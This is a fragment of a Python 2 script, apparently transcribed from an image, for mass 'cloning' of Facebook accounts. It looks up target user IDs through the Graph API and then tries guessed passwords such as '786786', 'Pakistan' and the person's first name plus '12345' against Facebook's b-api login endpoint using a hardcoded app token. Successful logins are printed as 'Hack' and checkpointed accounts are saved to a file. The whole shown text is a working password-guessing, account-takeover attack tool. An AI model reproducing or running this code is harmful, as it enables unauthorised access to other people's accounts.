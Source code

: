 	print "\033[1;91mTotal IDs\033[1;93m: \033[1;94m"+str(len(id))
	jalan('\033[1;92mPlease Wait\033[1;93m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;91mCloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;92m«--•◈••◈•---\x1b[1;93m•◈•Stop Process Press CTRL+Z•◈•\033[1;92m---•◈••◈•-»"
	print "\033[1;92m•◈•╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬•◈•\033[1;91mKali.linux\033[1;95m•◈•╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬•◈•"
	jalan(' \033[1;93m........🔎🔎🔎🔎🔎🔎🔎🔎🔎🔎\033[1;94mCloning Start plzzz Wai\033[1;93m🔍🔍🔍🔍🔍🔍🔍🔍🔍🔍........ ')
	print "\033[1;92m•◈•╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬•◈•\033[1;91mKali.linux\033[1;95m•◈•╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬•◈•"
	
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:love_hacker
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = ('786786')
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;91mHack💉\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;94m✙\x1b[1;95m-' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;94mAfter7Days🗝\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;95m-' + pass1
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = 'Pakistan'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;91mHack💉\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;95m-' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;94mAfter7Days🗝\x1b[1;97m-\x1b[1;93m✙\x1b[1;96m-' + user + '-\x1b[1;93m✙\x1b[1;95m-' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['first_name'] + '12345'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q: